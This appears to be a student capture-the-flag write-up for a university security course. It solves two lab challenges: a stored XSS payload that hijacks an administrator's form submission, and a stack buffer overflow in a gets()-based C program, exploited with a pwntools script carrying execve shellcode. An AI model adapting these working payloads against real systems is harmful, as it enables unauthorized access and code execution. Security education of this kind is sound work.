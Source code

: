 ## CTF 10

- [ctf-fsi.fe.up:5002](http://ctf-fsi.fe.up.pt:5002)
- [ctf-fsi.fe.up:4001](http://ctf-fsi.fe.up.pt:4001)

### Challenge 1

![Beg for a flag](images/ctf10/beg.png)
![Justification for the application](images/ctf10/request.png)

Analyzing the code of the webpage we noticed that there were 2 disabled forms,
one of them appears to give the flag when submitted, the other is the form the
administrator calls to "mark a request as read"

```html
<form method="POST" action="" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled>
        
    </div>
</form>

<form method="POST" action="/request/ab868b9e0c451ccc6d6b8c877198b4851c117a32/mark_as_read" role="formRead">
    <div class="submit">
        
        <input type="submit" id="markAsRead" value="Mark request as read" disabled>
        
    </div>
</form>
```

There is a XSS vulnerability that can be used in order to approve the request.
To obtain approvement, we insert in the input box the following javascript code
(this code should be inserted inside an html script tag, without comments and
in one line).

```js
document.querySelector('form[role="formRead"]').addEventListener('submit', function(e){
  // ignore the default action (submiting the form saying the request was evaluated)
  e.preventDefault(); 

  // submit the form that gives the flag instead
  document.querySelector('form[role="form"]').submit();
});
```

With the previous code, we were able to get access to the flag by altering the
action of the submission of the markAsRead form, so that the administrator
submits the flag form instead.

![flag](images/ctf10/flag.png)

### Challenge 2

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char buffer[100];

    printf("Try to control this program.\n");
    printf("Your buffer is %p.\n", buffer);
    printf("Give me your input:\n");
    fflush(stdout);
   
    gets(buffer);
    
    return 0;
}
```

In the source code, we can find the vulnerability in the line `gets(buffer);`.
This function is vulnerable to a buffer overflow.

![Checksec](images/ctf10/checksec.png)

From the output of checksec, we can see that some security mechanisms are disabled.
Since there aren't any canaries and NX (No eXecute) is disabled, which means
that code in memory can be executed, nothing is stopping us from injecting
malicious code into the buffer (which we control the input of). Then by
modifying the return address to jump to the location of the buffer, our code
will be executed.

When accessing the address given we found out that the only thing we were
missing (the buffer address) is given to us. Since this changes with every
access our script has to read this value during runtime, and then use it to
replace the RA.

![Netcat](images/ctf10/netcat.png)

Knowing where the buffer's location in memory is, we created the following
exploit that obtains the flag inside the file flag.txt by a cat operation:

```python
import pwn

p = pwn.remote('ctf-fsi.fe.up.pt',4001)
address = p.recvuntil(b'Give').split()[-2][:-1].decode('latin-1')
p.recv()

address = int(address,16).to_bytes(4,byteorder='little')

# NOP instructions aren't necessary
payload = bytearray(0x00 for _ in range(112))

# Shelcode calls "cat flag.txt"
# https://masterccc.github.io/tools/shellcode_gen/
shellcode = "\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x66\x6c\x61\x67\x89\xe1\x50\x51\x53\x89\xe1\x31\xc0\x83\xc0\x0b\xcd\x80".encode('latin-1')

# The exact address of the buffer that stores our input is known this means we don't have to use any NOP instructions
# The function can return immediately to the shellcode, we just have to place it at the start of the buffer
payload[0:len(shellcode)] = shellcode

# Overwrite Return Address pointer with the address of the variable storing our input
payload[108:112] = address

p.sendline(payload)
p.interactive()
```

Running the script we get the flag:

![Flag2](images/ctf10/flag2.png)
